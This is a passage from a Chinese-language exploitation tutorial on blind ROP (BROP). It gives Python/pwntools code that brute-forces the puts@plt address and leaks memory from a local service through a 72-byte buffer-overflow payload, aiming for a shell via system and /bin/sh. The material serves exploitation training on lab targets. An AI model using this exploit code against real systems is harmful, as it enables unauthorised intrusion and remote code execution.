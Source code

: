 这样，我们基本得到了brop的gadgets地址0x4007ba

#### 确定puts@plt地址

根据上面，所说我们可以构造如下payload来进行获取

```text
payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

具体函数如下

```python
def get_puts_addr(length, rdi_ret, stop_gadget):
    addr = 0x400000
    while 1:
        print hex(addr)
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(
            addr) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content = sh.recv()
            if content.startswith('\x7fELF'):
                print 'find puts@plt addr: 0x%x' % addr
                return addr
            sh.close()
            addr += 1
        except Exception:
            sh.close()
            addr += 1
```

最后根据plt的结构，选择0x400560作为puts@plt

#### 泄露puts@got地址

在我们可以调用puts函数后，我们可以泄露puts函数的地址，进而获取libc版本，从而获取相关的system函数地址与/bin/sh地址，从而获取shell。我们从0x400000开始泄露0x1000个字节，这已经足够包含程序的plt部分了。代码如下

```python
def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote('127.0.0.1', 9999)
    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    sh.recvuntil('password?\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        sh.close()
        return None


##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
```